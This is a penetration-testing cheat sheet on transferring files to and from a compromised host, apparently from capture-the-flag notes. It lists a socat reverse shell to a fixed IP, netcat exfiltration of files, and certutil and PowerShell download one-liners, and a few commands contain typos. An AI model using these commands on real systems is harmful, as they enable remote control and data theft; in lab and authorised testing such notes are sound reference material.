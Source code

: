 ```yaml
---
icon: person-to-portal
description: Listeners and binaries
---
```


# File Transfer

## <mark style="color:purple;">Linux</mark>

{% hint style="warning" %}
### <mark style="color:purple;">base64</mark>

* <mark style="color:purple;">Using</mark> <mark style="color:orange;">**`base64`**</mark> <mark style="color:purple;">help to keep file integrity</mark>
* <mark style="color:purple;">Check hashes to avoid file corruption</mark>

```sh
md5sum <file>
```

***

{% code title="Pipe text in to a file" %}
```sh
echo "texto_base_64" | base64 -d > <file>
```
{% endcode %}

{% code title="Pipe file in to base64" %}
```sh
cat <file> | base64 -d > <file>
```
{% endcode %}
{% endhint %}

{% tabs %}
{% tab title="Python Web Server" %}
{% code title="Host" %}
```sh
python3 -m http.server 443
```
{% endcode %}

***

#### <mark style="color:purple;">Client</mark>

{% code title="curl" %}
```sh
curl -o IP:Port/file
```
{% endcode %}

{% code title="wget" %}
```bash
wget IP:Port/file
```
{% endcode %}
{% endtab %}

{% tab title="Netcat" %}
{% code title="Host" %}
```sh
nc -lvp <Local_IP> > file
```
{% endcode %}

{% code title="Client" %}
```sh
nc <Target_IP> <port> < file
```
{% endcode %}

***

{% code title="With cat" %}
```sh
cat <file> | nc Target_IP 443
```
{% endcode %}
{% endtab %}

{% tab title="Apache" %}
```
cp archivo.txt /var/www/html
```
{% endtab %}

{% tab title="SSH" %}
{% code title="Scapy" %}
```sh
shpass -p <password> scp <filename> admin@2million.htb:/tmp/
```
{% endcode %}
{% endtab %}

{% tab title="Socat" %}
{% code title="Listener" %}
```sh
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
{% endcode %}

{% code title="Target Machine" %}
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
{% endcode %}
{% endtab %}
{% endtabs %}

## <mark style="color:purple;">Windows</mark>

{% tabs %}
{% tab title="certutil" %}
{% code title="First, start a python web server" %}
```
python3 -m http.server 443
```
{% endcode %}

{% code title="Then" %}
```powershell
certutil.exe -f -urlcache -split http://<IP>/<file>
```
{% endcode %}
{% endtab %}

{% tab title="Invoke-WebRequest" %}
{% code title="First, start a python web-server" %}
```bash
python3 -m http.server 443
```
{% endcode %}

{% code title="Then" %}
```powershell
IWR -uri http://<ip>/<file> -OutFile <file_name>
```
{% endcode %}

***

{% code title="Powershell" %}
```powershell
powershell.exe iwr -uri http://<ip>/<file> -o <output_dest>
```
{% endcode %}

{% code title="invoke PowerShell" %}
```powershell
powershell.exe -command iwr -Uri http://<ip>/<file> -OutFile <destino_output_file>
```
{% endcode %}
{% endtab %}

{% tab title="Impacket" %}
{% code title="First, create a SMB share folder" %}
```bash
impacket-smbserver <share_name> <file_path> -smb2support
```
{% endcode %}

{% code title="Then, copy the files" %}
```powershell
copy \\<ip>\share\<file> <destination_path>
```
{% endcode %}
{% endtab %}

{% tab title="curl/wget" %}
{% code title="curl" %}
```powershell
curl http://ip/file -o <output>
```
{% endcode %}

{% code title="wget" %}
```powershell
wget http://ip/file -OutFile <output>
```
{% endcode %}
{% endtab %}

{% tab title="System.Net.WebClient" %}
{% code title="" %}
```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://ip/file', '<output>')
```
{% endcode %}
{% endtab %}
{% endtabs %}

## <mark style="color:purple;">Useful binaries</mark>

{% embed url="https://github.com/andrew-d/static-binaries" %}
